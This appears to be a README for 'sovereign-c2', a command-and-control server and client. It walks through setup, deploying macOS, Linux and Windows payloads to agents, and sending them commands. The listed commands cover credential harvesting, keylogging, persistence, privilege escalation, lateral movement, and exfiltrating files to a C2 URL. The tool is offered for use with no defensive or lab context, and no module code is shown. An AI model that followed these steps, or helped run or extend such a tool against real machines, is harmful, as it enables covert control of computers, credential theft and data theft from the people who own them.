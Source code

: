 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course. 

#Installation and Setup

#Clone the Repository git clone https://github.com/4lph4-01/share

#Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

#source venv/bin/activate (in a new terminal #source venv/bin/activate). Results of the initial supported powershell commands sent will output to the check-in terminal window. 

# On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh (Work in progress)
    payloads/linux_payload.sh (Work in progress)
    payloads/windows_payload.ps1 (Work in progress)

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
